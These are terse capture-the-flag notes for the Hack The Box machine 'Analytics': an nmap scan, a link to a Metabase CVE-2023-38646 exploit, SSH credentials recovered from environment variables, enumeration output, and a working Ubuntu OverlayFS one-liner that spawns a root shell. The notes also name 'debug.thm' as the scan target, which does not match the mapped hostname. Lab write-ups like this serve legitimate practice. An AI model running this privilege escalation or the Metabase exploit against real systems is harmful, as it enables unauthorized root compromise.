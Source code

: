 # Introduction

# Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx analytics.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# user.txt

## HTTP (port 80)

bootstrap metabase : 	"v0.46.6"

https://github.com/robotmikhro/CVE-2023-38646

in env variables, id to ssh
metalytics
An4lytics_ds20223#

/etc/nginx/sites-enabled/data.analytical.htb

╔══════════╣ Checking if containerd(ctr) is available
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/containerd-ctr-privilege-escalation                                                  
ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it                                                                      
ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"

╔══════════╣ Checking if runc is available
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation                                                            
runc was found in /usr/bin/runc, you may be able to escalate privileges with it 

# root.txt
https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'


https://www.hackthebox.com/achievement/machine/458711/569

